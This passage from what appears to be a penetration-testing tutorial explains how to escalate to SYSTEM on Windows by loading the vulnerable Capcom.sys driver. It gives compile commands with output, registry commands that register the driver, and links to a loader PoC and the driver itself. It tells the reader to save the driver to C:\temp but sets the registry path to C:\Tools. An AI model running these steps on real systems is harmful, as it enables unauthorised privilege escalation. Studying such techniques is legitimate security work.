 ## Capcom.sys Method 1

The driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges.&#x20;

We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us. Download it locally and edit it, pasting over the includes below.

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

### Compile with cl.exe

Next, from a Visual Studio 2019 Developer Command Prompt, compile it using **`cl.exe`**.

```cmd-session
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

### Add Reference to Driver

Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`. Issue the commands below to add a reference to this driver under our `HKEY_CURRENT_USER` tree.

```cmd-session
C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.

C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.
